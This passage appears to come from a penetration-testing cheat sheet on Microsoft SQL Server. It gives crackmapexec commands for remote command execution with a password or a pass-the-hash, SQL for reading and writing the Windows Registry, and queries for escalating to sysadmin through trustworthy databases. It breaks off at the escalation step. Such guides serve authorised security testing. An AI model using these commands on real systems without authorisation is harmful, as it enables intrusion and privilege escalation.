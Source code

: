 ## Remote
  
```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```



# Read Registry

Microsoft SQL Server provides **multiple extended stored procedures** that allow you to interact with not only the network but also the file system and even the [**Windows Registry**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)

|**Regular**|**Instance-Aware**|
|---|---|
|sys.xp_regread|sys.xp_instance_regread|
|sys.xp_regenumvalues|sys.xp_instance_regenumvalues|
|sys.xp_regenumkeys|sys.xp_instance_regenumkeys|
|sys.xp_regwrite|sys.xp_instance_regwrite|
|sys.xp_regdeletevalue|sys.xp_instance_regdeletevalue|
|sys.xp_regdeletekey|sys.xp_instance_regdeletekey|
|sys.xp_regaddmultistring|sys.xp_instance_regaddmultistring|
|sys.xp_regremovemultistring|sys.xp_instance_regremovemultistring|
```sql
-- Example read registry 
EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory'; 

-- Example write and then read registry 
EXECUTE master.sys.xp_instance_regwrite 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue', 'REG_SZ', 'Now you see me!'; EXECUTE master.sys.xp_instance_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue';

-- Example to check who can use these functions 
Use master; EXEC sp_helprotect 'xp_regread'; EXEC sp_helprotect 'xp_regwrite';
```


# Privilege Escalation
```sql
-- Get owners of databases 
SELECT suser_sname(owner_sid) FROM sys.databases 
-- Find trustworthy databases 
SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name; 

-- Get roles over the selected database (look for your username as db_owner) 
USE <trustworthy_db> SELECT rp.name as database_role, mp.name as database_user from sys.database_role_members drm join sys.database_principals rp on (drm.role_principal_id = rp.principal_id) join sys.database_principals mp on (drm.member_principal_id = mp.principal_id) 

-- If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role 
```